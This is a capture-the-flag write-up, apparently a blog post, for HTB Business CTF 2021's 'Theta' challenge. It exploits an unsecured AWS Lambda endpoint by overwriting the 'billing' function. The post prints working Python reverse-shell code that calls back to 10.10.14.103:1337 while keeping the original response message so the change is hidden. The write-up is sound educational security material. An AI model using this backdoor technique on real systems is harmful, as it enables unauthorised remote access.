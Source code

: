 ```yaml
---
layout: post
title:  "HTB Business CTF 2021 - Theta writeup"
date:   2021-07-27 20:00:00 +0300
categories: HTB_Business_CTF_2021 CTF
summary: Writeup for the Theta challenge from HTB's Business CTF from 2021. This challenge involved a unsecured aws Lambda service.
---
```


[Theta](https://ctftime.org/task/16672) was a challenge at the HTB Business CTF 2021 from the 'Cloud' category. It involved a unsecured AWS Lambda service that could be exploited in order to obtain code execution on the server the service was running on.

### Recon & identifying the service

After we spawned the container for this challenge we got an IP and a port (4566).  
By accessing that using a browser, we could see a JSON response.

![JSON response]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/theta_http.png){: .center-image}

This looked similar to what I've seen before (for example, while attacking HTB's [Bucket]({{site.baseurl}}/HTB-Bucket-writeup) machine) so the first thing that I tried was accessing the /health endpoint.  

![Health response]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/theta_health.png){: .center-image}

This shows us what services are running on this machine.  
Lambda seems like the best one to target because it deals with executing code.  

### AWS Lambda

We can now configure AWS cli and use that to interact with the Lambda service.  
First, we'll try to list the existing functions. We see that there is a single registered function called 'billing'.

![Listing functions]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/theta_list_fct.png){: .center-image}

My next step was trying to create a new function but I was unable to do that.  
Instead, I continued by trying to get more information about the existing function.

### Obtaining the code of the 'billing' function

You can get more details about a function by using 'get-function'.  
This have us access to the code location for the 'billing' function.

![Details for the billing function]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/theta_code_location.png){: .center-image}

By accessing that URL we got an archive that contained a single python file, lambda_function.py

<p>
{% highlight python %}
import json

def lambda_handler(event, context):
    return {
        'statusCode': 200,
        'body': json.dumps('Still in development')
    }

{% endhighlight %}
</p>

The function does not do anything, it just returns 'Still in development'.

### Updating the function, getting a shell and obtaining the flag

My next step was trying to update the 'billing' function. If I cannot create a new function, maybe I can edit an existing one.  
I edited the function above and made it return a slightly different message, zipped the modified file and then updated the function using the zip archive.  

![Updating the function]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/theta_update.png){: .center-image}

When invoking the function, I could see the message being changed.  
But we're here to hack something, so let's put in a reverse shell and see if that works.

<p>
{% highlight python %}
import json
import socket,subprocess,os

def lambda_handler(event, context):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.103",1337))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/bash","-i"])
    
    return {
        'statusCode': 200,
        'body': json.dumps('Still in development')
    }

{% endhighlight %}
</p>

I added a simple reverse shell in the function while keeping the returned message identical.  
Then, I opened a listener on my machine and invoked the 'billing' function (using curl).

![Invoking the function]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/theta_invoke.png){: .center-image}

This worked and I got a shell on the machine. It seemed like this is not a challenge with multiple steps like the usual HTB Machines (these were in a different category) so I just ran a grep looking for the flag.  
The flag was 'hidden' in /opt/flag.txt.

![Obtaining the flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/theta_flag.png){: .center-image}